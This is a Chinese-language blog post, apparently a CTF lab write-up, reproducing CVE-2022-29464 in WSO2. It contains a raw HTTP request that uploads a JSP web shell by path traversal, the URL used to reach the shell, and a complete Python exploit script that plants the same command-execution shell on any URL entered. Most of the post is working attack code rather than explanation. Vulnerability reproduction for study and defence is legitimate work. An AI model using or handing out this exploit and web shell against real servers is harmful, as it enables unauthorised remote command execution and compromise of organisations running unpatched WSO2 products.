 ```yaml
---
title: CVE-2022-29464
subtitle:
date: 2025-03-14T12:35:37+08:00
slug: 423bfcb
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/a5a2d99458eb7e9f1404b65091252ab9.png)

 攻击者可以上传恶意 JSP 文件到 WSO2 服务器的 web 目录（如 `/repository/deployment/server/webapps`)，从而通过 HTTP 请求直接访问并执行该文件。
弱口令admin\admin发现登陆进去并没有什么用。
刷新登陆界面，修改host值上传wavesky.jsp文件到指定目录，根据poc抓包修改

```
POST /fileupload/toolsAny HTTP/1.1
Host: eci-2ze5ic6lllh6zsnt7m7o.cloudeci1.ichunqiu.com:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 901
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0
 
--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/shell.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/shell.jsp"
 
<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```



![](images/fa5b2999fa34c1916c5432544c0e7446.png)

上传成功，访问

``` url
https://eci-2ze5ic6lllh6zsnt7m7o.cloudeci1.ichunqiu.com:9443/shell.jsp
```



![](images/00130f6dbf26ea6ee01e00e458c0de29.png)

进行命令执行，找到flag

![](images/b82646576edee0d9526544c7b90b9a6c.png)

读取flag
![](images/4b5053891cd25634ff775f730d45f18b.png)

exp：

``` python
import requests
import urllib3
 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
 
url = input("请输入URL：")
file = "shell.jsp"
payload = """<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>"""
 
files = {f"../../../../repository/deployment/server/webapps/authenticationendpoint/{file}": payload}
response = requests.post(f'{url}/fileupload/toolsAny', files=files, verify=False)
print(f"shell @ {url}/authenticationendpoint/{file}")
```
